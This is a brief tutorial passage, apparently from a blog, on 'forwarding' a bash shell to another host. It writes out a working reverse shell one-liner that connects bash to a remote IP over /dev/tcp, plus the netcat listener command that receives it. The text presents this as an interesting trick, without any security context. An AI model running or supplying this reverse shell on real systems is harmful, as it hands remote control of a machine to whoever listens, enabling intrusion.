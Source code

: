Forwarding shells
One of the most interesting things that you can do with a shell is to forward it to another host. You will need nc or netcat on the host to which you forward the shell.

On the host with the shell you have to issue the command

1
bash -i >& /dev/tcp/192.168.218.1/9999 0>&1
The address 192.168.218.1 is the host to which you want to forward the shell. After the IP (note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving) you have to put the port number (9999) on which the netcat listener will listen.

You have to start the netcat listener on the other side. Double check that there are no firewall rules preventing you from accepting connections.

1
nc -l 9999
Some versions of netcat require you to add -p before the port number. If all goes well you should get the shell on the listening host
